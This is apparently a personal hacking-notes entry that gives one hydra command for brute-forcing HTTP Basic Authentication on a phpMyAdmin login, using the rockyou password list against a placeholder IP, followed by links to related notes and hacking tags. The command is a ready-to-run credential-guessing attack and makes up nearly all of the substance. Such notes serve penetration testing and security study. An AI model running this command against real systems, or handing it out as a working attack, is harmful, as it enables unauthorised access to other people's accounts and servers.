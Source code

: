 # hydra brute force HTTP Basic Authentication
```bash
hydra -l admin -V -P /usr/share/wordlists/rockyou.txt -s 80 -f $IP http-get /phpmyadmin/ -t 15
```

# Related

- [20221003150744](/zet/20221003150744/README.md) hydra brute force
- ~/kb/hacking/commands/hydra.md

Tags:

    #command #hacking #hydra 
